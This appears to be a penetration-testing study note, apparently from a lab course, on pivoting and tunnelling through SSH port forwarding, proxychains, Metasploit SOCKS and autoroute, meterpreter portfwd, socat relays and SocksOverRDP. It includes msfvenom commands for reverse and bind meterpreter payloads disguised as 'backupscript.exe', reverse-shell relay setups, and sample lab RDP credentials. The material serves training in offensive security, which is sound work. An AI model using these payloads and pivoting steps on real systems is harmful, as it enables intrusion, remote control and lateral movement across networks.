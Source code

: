 
## #SSH local port forwarding
![[Pivotting.png]]
### Scan the pivot target 
```shell
nmap -sT -p22,3306 10.129.202.64
```
### Execute the local Port Forward 
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```
-L Forward all traffic from the first port to the second
### Confirm Port Forward 
```shell
netstat -antp | grep 1234
```
```shell
nmap -v -sV -p1234 localhost
```
### Forward multiple hosts  
```shell
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

## SSH Tunnelling over #SOCKS proxy 
To connect to the target machine from the local machine you can start a SOCKS listener on the local host. 
*This is called SSH tunneling over SOCKS proxy*

Allows traffic to be route to the second target via the first machine. 
![[Pivotting over SSH.png]]

#### Dynamic Port forwarding with SSH 

##### Use #Proxychains to send traffic across #proxy 
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
The D argument requests the SSH server to enable dynamic port forwarding. 

```shell
tail -4 /etc/proxychains.conf
```
Add `socks4 127.0.0.1 9050` to the bottom. 
##### #nmap with proxy chains 
```shell
 proxychains nmap -v -sn 172.16.5.1-200
```
##### Proxy chains with metasploit 
```shell
proxychains msfconsole
```
##### Proxychains with xfreerdp
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Remote/Reverse Port Forwarding 
Allows the target to talk back to you
Example payload:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
On the local machine 
```shell
ssh -R <InternalIPofPivotHost>:<multi handler port>:<listenerip>:<lport> <target username>@<ipAddressofTarget> -vN
```


## Meterpreter Tunnelling & Port Forwarding
### Ping Sweeping to search for more hosts 
Run these twice to allow ARP cache to build up
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

```msf
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### MSF SOCKS Proxy 
```shell
use auxiliary/server/socks_proxy
```

```shell
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
Check the proxy is running 
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====
Id  Name    Payload  Payload opts
0   Auxiliary: server/socks_proxy
```
may need to add to /etc/proxychains.conf
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes 
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
 or 
 ```shell
run autoroute -s 172.16.5.0/23
```
```shell
run autoroute -p
```
#### Test Connection 
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding 
create a local TCP relay 
```meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
### Reverse Port Forwarding 
```shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Forward requests on port 1234 to listener on port 8081
##### Start a multi handler


## [Socat](https://linux.die.net/man/1/socat) Redirection with a Reverse Shell
Bidirectional relay tool that can create a pipe between 2 network channels. 
### Start #Socat Listener 
Do this on the pivot host 
```shell
socat TCP4-LISTEN:8080,fork TCP4:<local ip>
```

Listen on the local host on port 8080 and forward traffic over port 80

### Create the payload 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot host ip> -f exe -o backupscript.exe LPORT=8080
```
Start a multi handler on port 80 
## Socat Redirection with a Bind Shell
![[Pivotting MSF.png]]
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Create the payload 

### Socat Bind Listener 
```shell
 socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Needs to be the inverse way to ensure traffic is forwarded to the target this time 

Start a multi handler 

Establish a meterpreter session 


## RDP and SOCKS Tunneling with SocksOverRDP
SSH not available?
[SOCKS over RDP](https://github.com/nccgroup/SocksOverRDP)
Uses Dynamic Virtual Channels
### Downloads 
https://github.com/nccgroup/SocksOverRDP/releases
https://www.proxifier.com/download/#win-tab

#### Load SocksOverRDP on pivot host 
```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Connect over RDP using mstsc.exe
Should receive prompt that SocksOverRDP is enabled.

Transfer SocksOverRDP-Server.exe and star with admin privileges. 

Check SOCKS Listener is started 
```cmd
netstat -antb | findstr 1080
```

### Transfer Proxifier over to the pivot host
Profiles > add profile
Configure to forward all packets to 127.0.0.1:1080

